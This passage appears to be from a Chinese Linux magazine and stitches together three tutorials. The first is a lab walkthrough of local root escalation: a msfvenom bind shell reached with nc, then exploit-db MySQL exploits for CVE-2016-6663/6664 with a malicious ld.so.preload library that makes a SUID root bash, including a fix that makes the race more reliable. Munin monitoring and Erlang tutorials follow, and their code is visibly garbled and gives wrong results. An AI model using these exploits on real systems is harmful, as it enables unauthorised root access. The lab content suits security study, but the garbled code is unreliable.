现在你对这个 PoC 足够熟悉了，让我们改变 shellcode，以便一旦执行 **passwd**，我们就可以远程连接到服务器。回到你的 Kali Linux 并生成一个新的 ELF32 二进制文件，它将在 TCP 端口 8080 上监听，一旦建立连接就生成一个 root shell（这被称为端口绑定 shellcode）：

```
| msfvenom -p linux/x86/shell_bind_tcp -a x86
   LPORT=8080 -f elf |xxd -i > payload
```

在 WebSecurity Dojo 中，用这些新字节替换 **cdw.c** 内部 **shell_code[]** 缓冲区的字节。由于 shellcode 长度不同，别忘了也要更改 **sc_len**：

```
| unsigned int sc_len = 162;
```

重新编译漏洞利用程序并运行它；然后执行 **passwd**：

```
| passwd
```

回到你的 Kali VM 并使用 **netcat** 连接到 WebSecurityDojo：

```
| nc YOUR_DOJO_IP 8080
```

你现在已远程连接到 VM。输入命令 **whoami** 以查看你是否确实是 root：

```
| whoami
  root
```

## 在 MySQL 中提升权限

事实证明，WebSecurity Dojo 也容易受最新的 MySQL CVE 的影响。下载第一个漏洞利用程序：

```
| wget --no-check-certificate
   https://www.exploit-db.com/download/40678 -O 40678.c
```

安装 MySQL 客户端库并编译漏洞利用程序：

```
| sudo apt-get install libmysqlclient-dev
  gcc 40678.c -lmysqlclient -I/usr/include/mysql -O 40678
```

此漏洞利用程序在易受攻击的 mysql 版本上本地执行时可获得 mysql-suid shell。为了利用它，你需要先有一些有效的数据库凭据。创建一个新的数据库用户，使其具有 DWA 数据库的一些权限：

```
| mysql -u root -p
  mysql> use dwa;
  mysql> GRANT CREATE,SELECT,INSERT,DROP ON dwa.* TO attacker@localhost IDENTIFIED BY 'passwd';
  mysql> exit
```

使用这些凭据运行第一个漏洞利用程序：

```
| ./40678 attacker passwd localhost dwa
   [+] Bingo! Race won (4 tries)
   [+] Spawning the mysql SUID shell now
```


## mysql_suid_shell.MYD-4.2S

你将看到一个 shell；首先，你应该通过执行 `whoami` 命令来检查自己是否已获取到 mysql-shell：

```
mysql_suid_shell.MYD-4.2S whoami
mysql
```

从这里开始，你可以利用 CVE-2016-6662 或 CVE-2016-6664 进一步提升权限。我们尝试第二个漏洞。在你的 WebDio 虚拟机中打开一个新终端并下载第二个利用脚本：

```
wget --no-check-certificate https://www.exploit-db.com/download/40679 -O 40679.sh
```

这次它是一个用 Bash 编写的 shell 脚本。你可以先设置其执行权限：

```
chmod +x 40679.sh
```

如果你运行该脚本，会得到一个错误：

```
./40679.sh
: invalid option
```

使用 `dos2unix` 命令修复它：

```
sudo apt-get install dos2unix
dos2unix 40679.sh
```

这种新技术可以通过将 MySQL 错误日志文件重定向到 /etc/ld.so.preload 来获得 root 权限，然后用一个恶意库替换其内容（该库由 Bash 脚本生成并编译）。随后，该库将被链接器预加载，从而将 `geteuid()` 的调用替换为这个恶意版本：

```
1  int t_geteuid(void) {
2      static uid_t    (*old_geteuid)();
3      old_geteuid = dlsym(RTLD_NEXT, "geteuid");
4      if ( old_geteuid() == 0 ) {
5          chown("$BACKDOORPATH",  0, 0);
6          chmod("$BACKDOORPATH", 04777);
7      }
8      return old_geteuid();
9  }
```

这将创建一个具有 SUID root 权限的 $BACKDOORPATH（即 /bin/bash）副本。为了使这生效，mysqld_safe 必须正在运行。编辑 /etc/init/mysqld.conf 并确保执行的是 mysqld_safe 而不是 mysqld：

```
exec /usr/bin/mysqld_safe
```

最后，编辑 /etc/mysql/conf.d/mysqld_safe_syslog.conf 并设置 errorlog 的路径：

```
log-error=/var/log/mysql/error.log
```

让我们重新开始：停止服务，删除错误日志文件，然后再次启动 MySQL：

```
service mysqld stop
rm -rf /var/log/mysql/error.log
service mysqld start
```

在 MySQL shell 中执行第二个利用脚本：

```
mysql_suid_shell.MYD-4.2S \40679.sh /var/log/
mysql> error.log
[..]
[r] Waiting for MySQL to re-open the logs/MySQL service restart....
Do you want to kill mysqld process to instantly get root? : ? [y/n]
```

此时，如果你按 `y` 然后按回车，脚本将执行 `killall mysqld`，从而使 mysqld_safe 从头开始创建一个新的 error.log 文件。由于现在 /var/log/mysql/error.log 指向 /etc/ld.so.preload（它是一个软链接），错误日志将存储在 /etc/ld.so.preload 中（这被称为符号链接攻击）。该利用脚本会循环执行，直到它检测到该文件存在，届时它会尝试将恶意库添加到其中（第4行），然后删除 $ERRORLOG 文件（第5行）：

```
1  while ; do
2      sleep 0.1
3      if [ -f /etc/ld.so.preload ]; then
4          echo $PRIVESCLIB > /etc/ld.so.preload
5          rm -f $ERRORLOG
6          break;
7      fi
8  done
```

取决于你的虚拟机速度，你在使用此利用脚本时可能成功也可能失败。最坏的情况是，在 mysqld_safe 执行 chown()（从而将 /etc/ld.so.preload 的所有者更改为 mysql）之前，文件暂时属于 root 所有。如果利用脚本尝试覆盖 /etc/ld.so.preload 将失败（因为利用脚本是以 mysqld 身份运行的）。该利用脚本将继续执行直到其最后一行。到那时，我们得到的将是 /etc/ld.so.preload 中的一几条 MySQL 错误日志条目，并且由于该文件是系统范围的，之后我们尝试执行的任何二进制文件都会抱怨无法预加载一堆未知对象。如果一个特权用户重启计算机，可能会发生完全的系统崩溃。解决此问题的一种方法是增加 sleep 参数，或者在跳出循环并删除 $ERRORLOG（第5-7行）之前确保文件已成功覆盖：

```
1  echo $PRIVESCLIB > /etc/ld.so.preload
2  if [ $? -eq 0 ]; then
3      rm -f $ERRORLOG
4      break;
5  fi
```

## 使用 Munin 监控你的网络

学习如何在 Linux 系统上安装和配置 Munin 以监控网络计算机


**尼提什·蒂瓦里**（Nithish Tiwari）是一名软件开发者，对自由和开源软件有着浓厚的兴趣。除了担任主要 FOSS 出版物的社区版主和作者外，他还帮助组织采用开源软件以满足其业务需求。

没有资源监控组件，计算机网络是不完整的。虽然监控工具并不缺乏，但经过验证的工具总是比相对较新的工具更好——尤其是在涉及网络正常运行时间和可靠性方面。在本教程中，我们将查看一种名为 Munin 的可靠网络资源监控工具。它可以让你轻松监控不仅限于计算机，还包括网络、SAN、应用程序和各种其他资源的性能。

Munin 是用 Perl 编写的，易于扩展，其插件可以用任何语言编写。你可以通过 Munin 插件扩展功能以监控特定资源。在架构上，Munin 采用主/节点设计，其中主节点定期连接到所有节点并向它们请求数据。主节点跟踪传入数据及其变化，并通过基于 Web 的界面向最终用户提供这些信息。

Munin 几乎适用于所有主要的 Linux 发行版，包括 Debian、Ubuntu、Fedora 和 Red Hat 等。在本教程中，我们将看看如何安装并开始使用 Munin，然后学习如何在网络中配置它。我们还将查看一些有趣的 Munin 插件，并了解如何编写自己的 Munin 插件。

### 资源

- Munin: http://munin-monitoring.org/



类似地，你可以通过输入以下命令安装 munin-node 包：

```
$ sudo apt-get install munin-node
```

### 01 安装 Munin

由于 Munin 基于主/节点架构，你需要根据机器将扮演的角色来选择要安装的软件包。例如，如果某台机器将作为主节点，你需要在该机器上安装 **munin-master** 包。主节点指的是将从所有节点收集数据并向最终用户提供服务结果的机器。**munin-master** 运行 **munin-httd**，这是一个提供 Munin Web 界面的基本 Web 服务器，监听 4040/tcp 端口。如果你刚开始使用 Munin，或者你的网络中只有少数几个节点，在一台机器上安装 **munin-master** 就足够了。对于网络中所有其他（将被监控的）机器，你需要安装 **munin-node** 包。本教程使用 Ubuntu 16.04 作为宿主系统。

要安装 munin-master 包，请输入以下内容：

```
$ sudo apt-get install munin
```



右：Munin 主节点系统上的 Munin 监控主页。左上角显示了不同类别中可能出现的问题



### 02 Munin 主节点配置

一旦你在相关机器上安装了主节点和节点包，你就需要配置它们，以便它们可以相互通信。此外，Munin 主节点需要配置 Web 服务器，以便能够通过网页提供网络状态。所有的配置文件都位于 /etc/munin 文件夹中。

让我们首先配置 Munin 主节点。首先，像这样打开配置文件：

```
$ cd /etc/munin/
$ sudo nano munin.conf
```

然后查找以 **dbdir** 开头的行。这部分定义了存储各种 Munin 主节点文件的目录。**dbdir** 存储包含实际监控信息的 **rrdfiles**，**htmlDir** 存储图片和站点文件，**logDir** 维护 **日志**，**rundir** 保存状态文件，而 **tmpDir** 是 HTML 模板的位置。


### 03 Munin 主服务器 Web 服务器配置

在某些情况下，你可能希望在无法直接被 Munin 服务器访问的主机上运行 munin-node。




你需要修改的文件是 apache.conf，即 Munin 的 Apache 配置文件。该文件通过符号链接指向 /etc/apache2/conf-available/munin.conf，后者又通过符号链接指向 /etc/apache2/conf-enabled/munin.conf。请打开该文件以允许编辑：

```bash
sudo nano apache.conf
```

在文件的顶部，将第一行修改为 /var/www/munin，与你在 munin.conf 中指定的 htmldir 路径相同。接下来，查找 Directory 部分，并将目录更改为 /var/www/munin。此外，注释掉前四行，然后添加两条新的指令，使其读取如下内容：

```apache
<Directory /var/www/munin>
  Order allow,deny
  #Allow from localhost
  #Allow from 127.0.0.0/8 ::1
  #Options None

  Require all granted
  Options FollowSymlinks SymLinksIfOwnerMatch
</Directory>
```

你需要以类似的方式修改最后两个 Location 部分以完成配置。最后，重启 Apache 和 munin-node 服务。此时，你应该能够通过 http://localhost/munin 访问 Munin。

### 04 添加节点

要配置 Munin 节点，你需要编辑 /etc/munin/munin.conf 文件。第一步是允许访问主服务器，以便它可以查询节点。Munin 节点默认监听所有接口，但由于严格的访问控制列表，你需要添加主服务器的 IP 地址才能使监控生效。可以使用 cidr_allow、cidr_deny、allow 和 deny 语句来列出主服务器的 IP 地址。使用 cidr_allow 时，你可以使用以下语法：

```conf
cidr_allow 127.0.0/8
```

通过删除前面的 # 号来取消这些文件夹路径的注释。此外，务必将 htmldir 从 /var/cache/munin/www 更改为实际的 Web 目录，以符合 Web 服务器配置。我们使用的路径是 /var/www/munin。

接下来，查找第一个主机树。它定义了如何访问和监控主机机器。它应该读取为：

```conf
[localhost.localhost]
address 127.0.0.1
use_node_name yes
```

将该树名称更改为能唯一标识服务器的名称。这是将在 Munin Web 界面中显示的名称。然后，你需要以以下格式之一添加所有你想要监控的节点。例如，使用此格式添加节点的 IPv4 地址：

```conf
[node.example.com]
address 192.0.2.4
```

如果你配置了 DNS，也可以使用节点的全限定域名（FQDN）代替其 IP 地址。

```conf
[node2.example.com]
address node2.example.com
```

Munin 还支持 IPv6，因此你可以按以下格式添加节点的 IPv6 地址。

```conf
[node3.example.com]
address 2001:db8:de:caf:bad
```

## Windows 版 Munin-node

Windows 版 Munin-node（munin-node-win32）是 Munin 监控系统的 Windows 客户端。它使用 C++ 编写，大部分插件内置于可执行文件中。这与标准的 munin-node 客户端不同，后者仅使用作为脚本或 Perl 脚本编写的外部插件。配置文件 munin-node.ini 使用标准的 INI 文件格式。

### 05 监控无法直接到达的主机

在某些情况下，你可能希望在无法直接被 Munin 服务器访问的主机上运行 Munin 节点。例如，考虑这样一种场景：Munin 服务器和一个或多个 Munin 节点之间有一个 UNIX 服务器。中间的服务器可以到达 Munin 服务器和 Munin 节点，但 Munin 服务器无法到达 Munin 节点，反之亦然。有各种处理方法来应对此类场景：我们将查看 SSH 隧道。使用 SSH 隧道，即使你需要访问另一侧的多个主机，也只需要一个 SSH 连接。Munin 服务器可以监听 localhost 接口上的不同端口并跟踪节点。要启用通过 SSH 隧道的跟踪，你需要像这样添加一个节点：



```text
[ssh-node]
address 127.0.0.1
port 5050
```

然后使用以下内容建立 SSH 连接：

```text
$ ssh -L 5050:localhost:4949 -f -N -i keyfile user@ssh-node
```

这将在调用机器的 TCP 端口 5050 和被调用机器的端口 4949 之间建立一个隧道。它还会在可能需要输入密码短语后，在后台发送 SSH。

现在，通过正则表达式匹配客户端 IP 地址来允许用户：

```text
cidr_allow 192.0.2.1/32

allow '^127.*'
allow '^192.0.2.1$'
```

配置 Munin 节点的下一步是决定使用哪些插件。一旦确定，只需将插件文件添加到 /etc/munin/plugins 目录即可。Munin 节点将运行该目录中存在的所有插件。

请注意，Munin 具有即插即用架构，对如何以及在哪里将节点添加到网络没有限制。因此，当你需要将新节点添加到现有网络（即由 Munin 监控的网络）时，你只需使用上述命令安装 Munin 节点，并允许访问 Munin 主服务器（使用前面解释的配置）。这将确保新节点受到 Munin 的监控。




### 06 Munin 插件

Munin 插件是在命令行环境中调用的简单可执行文件，其作用是在主机上收集一组事实，并以 Munin 可用的格式呈现它们。通常，插件在不带任何参数的情况下被调用。在这种情况下，插件以键值格式返回数据。例如，Munin 自带的 load1 插件将输出当前系统负载：

```text
$ munin-run load
load.value 0.03
```

插件的默认目录是 /usr/share/munin/plugins/。你可以通过在 /etc/munin/plugins/（对于 Munin 的包安装）中创建符号链接并重启 Munin 节点来激活插件。

Munin 安装过程使用 munin-node-configure 实用程序来检查哪些插件适用于你的节点，并自动创建链接。每当节点上的系统配置发生变化时（服务、硬件等），都会调用它，并相应地调整插件集合。

### 07 Munin 插件调用

默认情况下，大约十几组插件被安装并处于活动状态。其最常见形式是小型 Perl 程序或 shell 脚本。

插件由 munin-node 运行，并在被 munin 主服务器成功联系时调用。当这种情况发生时，munin-node 运行每个插件两次 – 一次带有 config 参数以获取图形配置，另一次不带参数以获取图形数据。这就是插件中的处理方式。

当插件以 config 参数调用时，预期其输出它所支持的图形的配置信息。此输出将由分为两组的一系列属性组成 – 全局属性和另一组数据源特定属性。你可以在以下链接中查看详细信息：[http://munin.readthedocs.io/en/latest/reference/plugin.html](http://munin.readthedocs.io/en/latest/reference/plugin.html)。

然而，当节点收到针对某个插件的 fetch 命令时，插件在命令行上不带任何参数被调用，并预期输出一或多个字段、值属性值，每个插件观察到的项目各一个（如 config 输出所定义）。通过 config 输出可以禁用图形的绘制。

```shell
case $1 in
config)
cat <<'EOM'
graph_title Load average
graph_label Load
label.load Load
EOM
exit 0;;
esac

printf "load.value "
cut -d' ' -f1 /proc/loadavg
```

## Munin 警报

Mumina 是一个用于接收警告和错误的通用接口。如果 Munin 插件发现数据源违反了其定义的极限，Mumini 能够通过更多的命令行调用或使用像 Nagios 或 Kanga 这样的监控系统来提醒管理员。请注意，如果接收系统每次只能接受有限数量的消息，你可以使用指令 contact、contact_max_messages。

### 08 Munin 插件示例

让我们创建一个简单的 Munin 插件。我们将以负载平均值插件为例，并用 shell 脚本编写它。在这个插件中，我们希望能够跟踪节点的整体平均负载。有一个 Linux 文件包含此信息：/proc/loadavg。因此，让我们首先读取该文件并格式化输出：

```bash
$ cut -d' ' -f1 /proc/loadavg
0.09
```

此外，Munin 希望值具有更结构化的形式，因此让我们进一步结构化它：

```bash
# printf "load.value "; cut -d' ' -f1 /proc/loadavg
load.value 0.06
```

在这里，load 被称为字段或字段名，value 是属性，而数字是值。下一步是确保插件在带有 config 参数调用时响应与图形相关的详细信息的强制性要求。最小输出应该看起来像这样：

```text
graph_title Load average
graph_label Load
load.label load
```

这是为了确保当 munin-master 从插件获取数据时，它知道如何在图形中绘制数据。以下是最终插件在一个文件中的样子。

```bash
#!/bin/sh
case $1 in
config)
cat <<'EOM'
graph_title Load average
graph_label Load
load.label load
EOM
exit 0;;
esac

printf "load.value "
cut -d' ' -f1 /proc/loadavg
```

> “插件由 munin-node 运行，并在被 munin 主服务器联系时调用。”


### 09 Munin buddyinfo 插件

Linux 以页粒度管理虚拟内存。然而，有些操作需要内核分配物理连续的页面。

如果内存变得碎片化，即使有足够的空闲页面，但它们是分散的，这种分配也可能失败。

```text
/proc/buddyinfo
```

/proc/buddyinfo 文件有助于可视化你的 Linux 机器上的空闲内存碎片。Munin buddyinfo 插件可以跟踪你网络中所有节点的此信息，并帮助你从主服务器监控它。该插件监控称为高阶页面的连续区域数量。阶意味着区域大小的 2 的指数，因此阶 2 意味着 2^2 = 4 个页面。


### 10 Munin proc 插件

Munin proc 插件用于监控命名进程的各个方面。你可以通过环境变量提供管道分隔的参数列表来配置它。env_procname 定义了在 /proc/PID/stat 第二列括号内看到的进程名。如果你没有得到预期的数据，可以在此检查值是否符合你的预期。这用于第一个过滤器。然后，args/user-filter 在此过滤器之上应用。注意 <PID> 是你感兴趣的进程的进程 ID。包含非字母数字字符（如空格、破折号等）的进程名称是特殊名称。此外，请注意，如果进程名称（在 env_procname 中）包含 [a-zA-Z_] 以外的任何字符，它们将在内部被下划线替换。


### Erlang 教程


Mihalis Tsoukalos 是一名 UNIX 管理员、程序员（UNIX & IOS）、数据库管理员（DBA）以及数学家。自 1993 年以来，他一直在使用 Linux。你可以通过 Twitter 上的 @mactosouk 或他的网站 mtsoukalos.eu 联系到作者。

-   资源
-   Erlang 的安装
-   文本编辑器，如 Emacs 或 vi

## Erlang 编程：函数

探索 Erlang 函数和基本的 Erlang 数据类型，以及其他有趣且实用的 Erlang 主题


本教程是关于 Erlang 编程语言系列教程的第二篇。本教程的主要主题是 Erlang 的数据类型和函数。

正如你可能在上期教程中记得的那样，除非你是在 Erlang shell 中进行实验，否则所有的 Erlang 代码都位于模块中。因此，所有的 Erlang 代码都以函数的形式出现。Erlang 定义函数的方式非常独特，特别是如果你习惯了 C 或 Python 这样的编程语言，这一点将在下文解释。此外，由于 Erlang 是一种函数式编程语言，它还支持匿名函数，本文也将对此进行说明。你还将学习原子、列表、映射（maps）和元组（tuples），所以开始阅读吧！

## 更多关于 Erlang

并发性（Concurrency）是 Erlang 的核心部分。因此，Erlang 进程（Erlang processes，不要将其与 Linux 进程混淆）是轻量级的。简单来说，创建 Erlang 进程很容易，比 Linux 进程更容易得多，因为它们需要的时间非常少，且内存开销很小。Erlang 进程之间不使用内存进行通信（这是一种有风险的做法），而是通过消息进行通信。此外，由于进程是独立的，每个进程的内存空间可以单独进行垃圾回收。最后，一个进程的失败不会对其他进程造成损害，从而允许它们继续工作。

## 更多关于 OTP

OTP 是 Erlang 以及 Erlang 思维方式的中心部分，因为它允许你构建高可用的 Erlang 应用程序。本节将更多地讨论 OTP，以便更好地理解它。

OTP 在编程语言中是独一无二的，它允许团队开发分布式、容错、可扩展且高可用的系统。

尽管其名称为“开放电信平台”（Open Telecom Platform），但 OTP 是领域无关的，这意味着你可以为许多不同领域编写应用程序。

OTP 由三个主要部分组成。这些部分包括 Erlang 语言本身、随 Erlang 提供的各种工具，以及设计规则（即通用行为和抽象原则，它们允许你专注于系统逻辑）。这些行为可以是执行繁重工作的 worker 进程，而 supervisor 进程则监控 worker 以及其他 supervisor。为了正确地完成这些，开发者应适当组织进程。

关于 OTP 的信息在本教程中到此为止；你将在即将推出的教程中了解有关 OTP 的更多细节。

## 变量和数字

正如预期，Erlang 支持两种数字：整数和浮点数。

定义浮点数时，小数点左边必须有一个数字，即使它是零。如果你忘记了这样做，你会得到以下类型的错误消息：


```
1) MyFloat = .987.
2 1: syntax error before: `'.
```

如果语句正确，Erlang 会回复并打印浮点值：

```
1) MyFloat = 0.987.
   0.987
```

**图 1** 展示了与 Erlang shell 的一次交互，其中声明并使用了多个变量。你应特别关注 `b()` 函数，它打印所有已定义的变量；以及 `f()` 函数，当不带参数执行时清除所有已绑定变量，当给定变量作为参数时清除该特定变量。

## Erlang 数据类型

Erlang 支持许多数据类型，包括原子、映射、列表和 funs。原子用于表示常量值。原子具有全局作用域，并以小写字母开头：

```
1> linux.
linux
2> 12.
12
```

如你所见，原子的值就是该原子本身！虽然讨论原子或整数值看起来有点奇怪，但 Erlang 的函数式特性要求每个表达式都有一个值，原子和整数也不例外，尽管它们是简单的表达式。

fun 是一种函数对象，它也允许你创建匿名函数，你可以将这些匿名函数作为参数传递给其他函数，就像使用变量一样，而不必使用它们的名称。**图 2** 展示了 Erlang 参考手册中关于 `fun` 关键字的一部分——即将推出的教程将更多地讨论匿名函数。

映射（Map）是一种复合数据类型，可以包含可变数量的键值对。每个对称为一个元素——元素的总数称为映射的大小。以下 shell 命令展示了如何创建映射：

```
1> MYPAY = #{country=>greece, city=>athens,
year=>2016, date=>nov,18}.
2 # {city => athens,country => greece, date =>
(nov,18},year => 2016}
```

正如你所理解的，有许多函数允许你操作映射——你可以在**图 3**中看到其中一些。

列表是另一种具有可变数量元素的复合数据类型。你可以如下方式在 Erlang shell 中定义一个新列表：

```
1> LIST1 = [a, b, c, {a,b}].
[ a, b,c,{a,b}]
```

请还要记住，在幕后 Erlang 将字符串视为列表，因此所有适用于列表的操作也可以用于字符串。

唯一的进程 ID 标识每个 Erlang 进程。PID 具有以下形式及其自己的数据类型，这意味着你不能将进程 ID 当作字符串使用：

```
1> self().
<<0.57.0>
```




**右侧** b() 和 f() 函数的用法以及在 Erlang 中声明数值变量

**贯穿** 这是 Erlang 参考手册中关于 **fun** 关键字的一小部分

**self()** 函数返回调用进程的进程 ID。类似地，**spawn()** 函数返回新进程的进程 ID，该 ID 用于向其发送消息：

```
1> c(hw).
   [ok,hw]
2> spawn(hw, helloWorld, []).
   hello_world!
   <0.65.0>
```

如你所见，spawn() 接受三个参数，分别是所属模块的名称、函数名称以及函数的参数，参数作为列表传递。如果函数没有参数，你应该传递一个空列表。图 3 展示了如何在 Erlang shell 中定义和处理映射和列表。

## 元组和卫表达式（Guards）

**卫表达式（guard）** 允许你指定给定函数接受的数据类型。虽然现在可能看起来有点模糊，但稍后你会看到使用卫表达式的 Erlang 代码。**when** 关键字表示卫表达式。卫表达式的条件相对简单，允许你基于参数内容进行模式匹配，而不仅仅是基于其结构。

元组（Tuple）是一种复合数据类型，意味着元组允许你将多个项组合成单一的数据类型，并使用单个变量存储它们。大多数时候，Erlang 元组包含两个到五个项。此外，元组的第一个原子通常标识该元组的用途或类别。你可以如下声明一个元组：

```
> T1 = {linux, 1}.
   {linux,1}
```

element() 函数允许你访问元组中的特定项：

```
> element(1, T1).
   linux
```

如你所见，元组中第一个元素的索引号为 1。类似地，**setelement()** 函数允许你更改现有元组项的值以创建新的元组：

```
> T2 = setelement(1, T1, unix).
   {unix,1}
```

元组非常实用，因为它们让你能够分组数据，并且在 Erlang 以及其他编程语言中经常被使用。

## Erlang 函数

在 Erlang 中，函数是由分号分隔并以句号/全点（.）结尾的函数子句序列。函数子句具有以下形式：

```
> F = fun(X) -> 2*X end.
   #fun<erl_eval.5.232829458>
```

上面的代码创建了一个带有一个参数的匿名函数。该匿名函数绑定到名为 F 的变量，该变量也是一个原子。你可以按如下方式使用它：






## 跨栏

如何在 Erlang shell 中定义 map（映射）和 list（列表），以及帮助你处理 map 和 list 的函数

## 左侧栏

`process_tuple()` 函数的实现，展示了如何处理元组

```erlang
3> F(4).
8
4> F(4.5).
9.0
```

函数的参数数量被称为函数的**元数**（arity）。模块名（m）、函数名（f）和元数（N）的组合唯一地标识一个函数为 `m:f/N`。正如你可能记得的，你必须导出（export）一个函数，才能在该函数所属模块之外使用它。

下一个示例展示了如何将函数作为参数传递给其他函数！在 Erlang shell 中输入以下内容：

```erlang
1> F=fun(X) -> 2*X end.
#fun(erl_eval.6.52032458)
2> Five = fun(N, Function) -> 5 * Function(N) end.
#fun(erl_eval.12.52032458)
3> Five(18,F).
100
4> F(18).
20
```

在这里，你定义了两个匿名函数，命名为 `F()` 和 `Five()`。`Five()` 函数接受两个参数，即一个整数 `N` 和一个函数 `Function`，并将 `Function(N)` 的数值结果乘以 5！

## 关于函数的更多内容

Erlang 支持比你在上一节中看到的更复杂的函数。下面的示例将说明如何使用函数处理元组。请记住，每个元组都计为一个函数参数。处理元组的一种非常常见的方式是使用模式匹配。图 4 展示了 `tuples.erl` 中 `process_tuple()` 函数的代码，该函数处理元组。执行 `tuples:main()` 会产生以下输出：

```erlang
15> c(tuples).
[ok,tuples]
16> tuples:main().
Size: 6 First element: [1,2]
Size: 4 First element: a
Ok.
```

最后一个示例将展示一个使用守卫（guards）和 case 语句处理元组的函数，这在 Erlang 中是一种相当常见的做法。图 5 展示了 `more_fun.erl` 中相关的 Erlang 代码。使用 `more_fun:check_temp()` 会产生以下类型的输出：

```erlang
11> c(more_fun).
[ok,more_fun]
more_fun.erl:12: Warning: variable 'N' is unused
more_fun.erl:14: Warning: variable 'N' is unused
[ok,more_fun]
12> more_fun:check_temp({fahrenheit, 50}).
'Do not know about Fahrenheit!'
13> more_fun:check_temp({kelvin, 50}).
"Cannot tell about Kelvin!"
14> more_fun:check_temp({celcius, 50}).
'Way too hot!'
15> more_fun:check_temp({celcius, 10}).
"It is getting cold..."
```

正如你所见，并非所有的 case 语句都必须带有守卫。

## 关于 Erlang shell 的更多信息

`q()` 函数是退出 Erlang shell 最简单的方法，但请记住，`q()` 函数会终止所有进程。Erlang 正在关闭。如果你是在本地工作，这没有问题，但如果你是在远程系统上工作，最好通过输入 Ctrl+C 然后输入 Q 来退出。原因是，使用 `q()` 退出时，你可能会关闭远程机器上的 Erlang 运行时！内置的行编辑器 `offer` 是 Emacs 的一个子集。

在图 6 中，你会看到一些更高级的 Erlang shell 命令，包括函数的声明、使用 `h()` 函数打印历史列表，以及退出 Erlang shell 的两种替代方式，即 `init:stop()` 函数和 `halt()` 函数。

## 获取用户输入

虽然 Erlang 主要用于服务器应用，但它也可以让你与用户进行交互。本节将教你如何在 Erlang 中获取用户输入，当你开发小型交互程序或其他命令行实用工具时，这非常方便。

虽然从 Erlang shell 获取用户输入相对容易，但棘手的部分是验证输入是否有效，以避免异常：

### Erlang 教程

如何在 Erlang shell 中定义函数，以及帮助你退出 shell 的辅助函数

```erlang
2> {ok, [VAR]} = io:fread("input : " ,"d").
input : 123
{ok,["123"]}
2> VAR.
123
3> {ok, [OTHER]} = io:fread("input : " ,"d").
input : abc
** exception error: no match of right hand side value {error,fread,integer}
```

### 图 6

**跨栏** `userinput.erl` 中的代码说明了获取用户输入的一种方式

正如你将看到的，Erlang 在处理字符串方面并不特别擅长。此外，由于不当的数据在处理时可能会造成麻烦，因此开发人员有责任检查输入是否具有正确的形式和所需的数据类型。

```erlang
#!/usr/bin/env escript
%% -*- erlang -*-

main([String]) ->
    try
        N = list_to_integer(String),
        io:format("Hello ~s\r\n", [String])
    catch
    end.
```

创建用户输入还有其他方法，包括读取字符和读取整行文本 - 你将在下一期的 Erlang 教程中了解更多相关内容。

## 创建 Erlang 脚本

`escript` 可执行文件允许你创建 Erlang 脚本，这是 Erlang 中一种吸引人的能力，常见于大多数脚本语言中。以下 Erlang 脚本接受一个命令行参数，并使用 `userinput.erl` 中代码的简化版本向用户询问其姓名。

```erlang
1> c(userinput).
{ok,userinput}.
Please give (Name, Surname) -> asd, asd.
There is an error somewhere.
Please give (Name, Surname) -> 'M'halis', 'T'soukalos'!.
Hello 'M'halis' T'soukalos'!
Please give (Name, Surname) -> 12.
A tuple is needed!
Please give (Name, Surname) -> quit.
Bye!
```

图 7 展示了示例 Erlang 代码，教你如何获取用户输入并确保你获取所需的内容，你可能会发现这比预期的要复杂，特别是如果你熟悉其他编程语言。执行 `userinput.erl` 会产生以下类型的输出：

### 图 7

```erlang
-module(userinput).
-export([userinput/0]).

getinput() ->
    I = io:read("Please give (Name, Surname) -> "),
    process_input(I).

process_input({ok, Data}) when is_tuple(Data) ->
    Name = element(1, Data),
    Surname = element(2, Data),
    io:format("Hello ~s ~s\r\n", [Name, Surname]),
    getinput();

process_input({ok, quit}) ->
    io:format("Bye\n");

process_input({ok, _}) ->
    io:format("A tuple is needed\n"),
    getinput();

process_input({error, _}) ->
    io:format("There is an error somewhere\n"),
    getinput().
```

## 文件系统与 Erlang shell

在你使用 Erlang shell 工作时，总会有时候你需要切换到另一个目录。看看以下与 Erlang shell 的交互

```erlang
1> pwd().
"/home/esotuk"
OK
1> cd("..").
/home
OK
1> pwd().
/home
OK
```

```erlang
main([String]) ->
    try
        N = list_to_integer(String),
        io:format("~s: ~b\n", [String, N]),
        catch
        _ ->
            usage()
    end;
main(_) ->
    usage().

usage() ->
    io:format("Usage: scriptName integer\n"),
    halt(1).

process_input({ok, Data}) when is_tuple(Data) ->
    Name = element(1, Data),
    io:format("~s", [Name]);

process_input({error, _}) ->
    io:format("There is an error somewhere.\n"),
    getinput().
```



**左侧栏** 使用 `fibo1.erl` 中找到的 `fibo()` 函数

创建脚本文件后，你应该更改其权限：

```bash
$ chmod 755 afile.erl
$ ls -l afile.erl
-rwxr-xr-x  1 mtsouk staff  0 Nov 14 15:30 afile.erl
```

接下来，你可以像运行普通的 shell 脚本一样执行 `afile.erl`：

```bash
$ ./afile.erl 123
Please give (Name) >> (“Mihalis”).
